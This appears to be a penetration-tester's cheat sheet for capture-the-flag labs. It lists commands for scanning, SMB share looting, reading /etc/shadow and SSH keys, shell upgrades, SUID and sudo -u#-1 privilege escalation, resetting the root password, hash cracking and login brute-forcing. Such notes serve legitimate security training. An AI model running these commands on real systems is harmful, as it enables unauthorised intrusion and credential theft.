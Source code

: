 # step by step

## recon
ping {ip}
whois {domain}
nslookup {ip}
dig {ip}
host {domain}

## target scanning
sudo nmap --open #-p- for full port scan #-sV version detection #-sC default scripts #-Pn host discovery

subfinder -d {domain}
dnsgen urls.lst | httprobe
httpx
whatweb

## remote exploits
### http/https
if seeing any url with a number change the number

### ftp
ftp anonymous@{IP}

### smb
smbmap -H {IP} #list shares on target with anomouse
smbmap -H {IP} -u {username} #guest/administrator
smbclient -L={IP} -U Administrator #try a login
smbclient //{IP}/{sharename} #connect to specifiec share
RECURSE ON
PROMPT OFF
cd {dir}
mget /Policies/*/MACHINE/Preferences/Groups/Groups.xml
mget *

### psql
psql -U {USER} -h {IP} -p 5432
\l #list databases
\c {name} #connect to a database
\dt #list tables
select * from {table} #show table content

### finding github source
when finding the source code,
compare the changes,
sometimes in this there might be found the difference

## getting connections
ssh {user}@{ip}
xfreerdp /v:{IP} /u:{USER} /p:{PASSWORD}
telnet {ip} {port}

### basic shell -> shell++
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
script /dev/null -c bash
```
ctrl+Z and then
```
stty raw -echo && fg
```

### recon from a shell
whoami
id #default groups: audio video plugdev cdrom dip floppy netdev
groups
uname -a
cat /etc/sudoers
cat */.bash_history
cat */.bashrc
cat /etc/sudoers
cat /etc/sudoers.d
cat /etc/crontab
cat /var/spool/*
cat /etc/systemd/system
cat */.ssh/
cat /opt/
cat /etc/passwd
cat /etc/shadow

ss -tln #identify localports
ss -tla #identify name

find / -user root -perm /4000 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null #find tools that have an suid, look these up on https://gtfobins.github.io/
chmod -s {found_binary} # to disallow others from abusing it

pspy32 #spy tool, open it on a host, login on second terminal, and maybe gain stuff
echo -e "hackerpassword\nhackerpassword" | passwd root

grep -r "THM{" / >> temp_flags.txt 2>/dev/null

### sudo -L
https://gtfobins.github.io/#+sudo
sudo -u#-1 /bin/bash

### ls *.ssh/ 
look for keys and try to login with them to other users
ssh {user}@{ip} -i {keyfile}

ssh2john {keyfile}>hash

#### pgp key decryption
gpg2john {file}.asc > hash
john --format=gpg --wordlist=/usr/share/wordlist/rockyou.txt hash
gpg --import {file}.asc
gpg --decrypt {file}.gpg

### windows
cd C:\Program Files (x86)
dir

PrivescCheck.ps1

## cracking hashes
zip2john file.zip>{hashfile}
john {hashfile}
john {hashfile} --show

hashcat -a 0 -m 20 {hashfile} /usr/share/wordlists/rockyou.txt

## brute forcing
hydra -L users.txt -P pass.txt {IP} ssh
hydra -l mike -P /usr/share/wordlists/rockyou.txt -vV {ip} ftp

gobuster dir --url {ip} --wordlist /usr/share/wordlists/dirb/big.txt
gobuster dns -d {domain} --wordlist /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt

feroxbuster -u {ip}

ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://{domain}/ -H "HOST:FUZZ.{domain}" -fw 1 #vhost
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://{domain} -H 'Host: FUZZ.{domain}' -fw 4 -t 100
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -u http://{domain} -H 'Host: http://{domain}/FFUZ' -ic -t 100


